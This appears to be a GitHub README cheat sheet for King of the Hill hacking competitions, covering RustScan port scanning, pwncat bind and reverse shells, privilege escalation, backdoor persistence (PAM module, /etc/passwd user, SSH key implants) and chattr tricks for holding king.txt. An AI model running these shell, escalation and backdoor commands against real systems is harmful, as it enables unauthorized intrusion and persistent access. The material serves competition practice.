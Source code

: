 # KoTH-Tools

*Collection of KoTH tools and techniques, Enjoy!*

---------------

1. [Port Scanning](#portscanning)
    - RustScan
2. [Shells](#shells)
    - Pwncat
3. [king.txt](#kingtxt)
    - Pwncat

---------------

PortScanning
====================
* [RustScan](https://rustscan.github.io/RustScan/)

  *Port scanning tool, faster than NMAP.*
  
  1. Git clone the repo.
  2. Install Rust. You can do this with `curl --proto '=https' --tlsv1.2 -sSf https://sh.rustup.rs | sh` which I took from the Rust website https://www.rust-lang.org/tools/install
  3. cd into the Git repo, and run `cargo build --release`
  4. The binary is located at `target/release/rustscan`
  5. Symlink to the binary or something. Whatever you want!
  
    `rustscan -b 500 -T 1500 IPADDRESS`
    
Shells
====================
* [Pwncat](https://pwncat.readthedocs.io/)

  *Post exploitation shell wrapper*

  `pip install pwncat-cs`

  Bind shell:`pwncat-cs 192.168.1.1:4444`

  Encrypted bind shell:`pwncat-cs --ssl 192.168.1.1:4444`

  Catching reverse shell:`pwncat-cs -lp 4444`

  Encrypted reverse shell:`pwncat-cs --ssl --ssl-cert cert.pem --ssl-key cert.pem -lp 4444`

  Connect ssh server:`pwncat-cs root@192.168.1.1`

  Windows target:`pwncat-cs -m windows 192.168.1.1 4444`

  Enumerate:`(local) pwncat$ run enumerate`

  Generate target report:`(local) pwncat$ run report`

  PrivEsc root:`(local) pwncat$ escalate`

    PrivEsc specific user:`(local) pwncat$ escalate -u USER`

    Persistence pub key current user:`(local) pwncat$ run implant.authorized_key key=./id_rsa`

    Persistence pam backdoor module:`(local) pwncat$ run implant.pam password=PASSWORD`

    Persistence backdoor user within /etc/passwd:`(local) pwncat$ run implant.passwd backdoor_user=pwncat backdoor_pass=pwncat`

    Persistence list implants:`(local) pwncat$ run implant list`

    Persistence escalate using implant:`(local) pwncat$ run implant escalate`

    Persistence remove implant:`(local) pwncat$ run implant remove`

    Persistence reconnect to implant:`pwncat-cs --list` + `pwncat-cs IMPLANT_ID`
  
  

Kingtxt
====================
* [chattr](https://www.man7.org/linux/man-pages/man1/chattr.1.html)
  
    Add name to king.txt:`echo "USERNAME" > /root/king.txt`
    
    If errors, remove immutable bit:`chattr -i /root/king.txt`
    
    *Strat 1* - King.txt name persistence:`chattr +i /root/king.txt`
    
    *Strat 2* - Make file only appendable:`chattr +a /root/king.txt`
    
    *Strat 2* - Now can only append not write:`echo "USERNAME" >> /root/king.txt`
    
  
